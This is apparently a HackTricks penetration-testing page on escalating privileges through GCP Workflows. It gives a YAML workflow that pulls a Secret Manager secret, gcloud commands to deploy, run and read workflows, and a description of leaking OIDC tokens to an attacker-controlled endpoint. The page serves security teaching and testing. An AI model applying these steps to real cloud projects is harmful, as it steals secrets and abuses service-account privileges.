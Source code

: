 # GCP - Workflows Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Workflows

Basic Information:

{{#ref}}
../gcp-services/gcp-workflows-enum.md
{{#endref}}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Afaik it's not possible to get a shell with access to the metadata endpoint containing the SA credentials of the SA attacked to a Workflow. However, it's possible to abuse the permissions of the SA by adding the actions to perform inside the Workflow.

It's possible to find the documentation of the connectors. For example, this is the [**page of the Secretmanager connector**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** In the side bar it's possible to find several other connectors.

And here you can find an example of a connector that prints a secret:

```yaml
main:
  params: [input]
  steps:
    - access_string_secret:
        call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
        args:
          secret_id: secret_name
          version: 1
          project_id: project-id
        result: str_secret
    - returnOutput:
        return: "${str_secret}"
```

Update from the CLI:

```bash
gcloud workflows deploy <workflow-name> \
    --service-account=email@SA \
    --source=/path/to/config.yaml \
    --location us-central1
```

If you get an error like `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, just **wait a minute and try again**.

If you don't have web access it's possible to trigger and see the execution of a Workflow with:

```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```

> [!CAUTION]
> You can also check the output of previous executions to look for sensitive information

Note that even if you get an error like `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` because you don't have that permission, the workflow has been generated.

### Leak OIDC token (and OAuth?)

According [**to the docs**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) it's possible to use workflow steps that will send an HTTP request with the OAuth or OIDC token. However, just like in the case of [Cloud Scheduler](gcp-cloudscheduler-privesc.md), the HTTP request with the Oauth token must be to the host `.googleapis.com`.

> [!CAUTION]
> Therefore, it's **possible to leak the OIDC token by indicating a HTTP endpoint** controlled by the user but to leak the **OAuth** token you would **need a bypass** for that protection. However, you are still able to **contact any GCP api to perform actions on behalf the SA** using either connectors or HTTP requests with the OAuth token.

#### Oauth

```yaml
    - step_A:
      call: http.post
      args:
          url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
          auth:
              type: OAuth2
              scopes: OAUTH_SCOPE
```

#### OIDC

```yaml
    - step_A:
      call: http.get
      args:
          url: https://us-central1-project.cloudfunctions.net/functionA
          query:
              firstNumber: 4
              secondNumber: 6
              operation: sum
          auth:
              type: OIDC
              audience: OIDC_AUDIENCE
```

### `workflows.workflows.update` ...

With this permission instead of `workflows.workflows.create` it's possible to update an already existing workflow and perform the same attacks.

{{#include ../../../banners/hacktricks-training.md}}
